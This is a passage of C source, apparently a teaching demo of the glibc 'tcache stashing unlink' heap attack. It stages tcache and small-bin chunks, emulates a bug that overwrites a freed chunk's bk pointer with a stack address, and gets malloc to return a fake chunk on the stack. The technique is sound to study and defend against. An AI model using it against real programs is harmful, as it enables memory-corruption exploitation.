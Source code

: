 ```
    fprintf(stderr, "Also, let's see the initial value of stack_var[4]:%p\n\n",(void*)stack_var[4]);
    fprintf(stderr, "Now we alloc 9 chunks with malloc.\n\n");

    //now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }

    //put 7 tcache
    fprintf(stderr, "Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }

    fprintf(stderr, "As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");

    //last tcache bin
    free(chunk_lis[1]);
    //now they are put into unsorted bin
    free(chunk_lis[0]);
    free(chunk_lis[2]);

    //convert into small bin
    fprintf(stderr, "Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");

    malloc(0xa0);//>0x90

    //now 5 tcache bins
    fprintf(stderr, "Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");

    malloc(0x90);
    malloc(0x90);

    fprintf(stderr, "Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

    //change victim->bck
    /*VULNERABILITY*/
    chunk_lis[2][1] = (unsigned long)stack_var;
    /*VULNERABILITY*/

    //trigger the attack
    fprintf(stderr, "Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");

    calloc(1,0x90);

    fprintf(stderr, "Now our fake chunk has been put into tcache bin[0xa0] list. Its fd pointer now point to next free chunk: %p and the bck->fd has been changed into a libc addr: %p\n\n",(void*)stack_var[2],(void*)stack_var[4]);

    //malloc and return our fake chunk on stack
    target = malloc(0x90);   

```